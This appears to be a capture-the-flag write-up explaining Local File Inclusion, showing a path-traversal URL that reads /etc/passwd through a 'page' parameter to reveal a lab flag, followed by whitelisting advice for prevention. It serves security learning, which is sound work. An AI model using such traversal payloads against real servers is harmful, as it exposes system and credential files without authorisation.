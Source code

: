 # Local File Inclusion Definition

Local File Inclusion is an attack technique in which attackers trick a web application into either running or exposing files on a web server. LFI attacks can expose sensitive information, and in severe cases, they can lead to cross-site scripting (XSS) and remote code execution.

# Steps

After visiting any page we see that's the url `http://IP_ADDRESS/index.php?page=member` contain `page` parameter  
So if we change that param `http://IP_ADDRESS/index.php?page=anypage` it'll alert as with `Wtf ?`, let's send and path  
`http://IP_ADDRESS/index.php?page=../../etc/passwd` alert with `Wrong..` let's continue testing path. and ww find the correct path is `http://IP_ADDRESS/index.php?page=../../../../../../../etc/passwd` and it's alert us with the flag!

# Flag: b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0

# Prevent This vulnerability

To avoid LFI and many other vulnerabilities, never trust user input. If you need to include local files in your website or web application code, use a whitelist of allowed file names and locations. Make sure that none of these files can be replaced by the attacker using file upload functions.

# Resources

### [neuralegion](https://www.neuralegion.com/blog/local-file-inclusion-lfi)
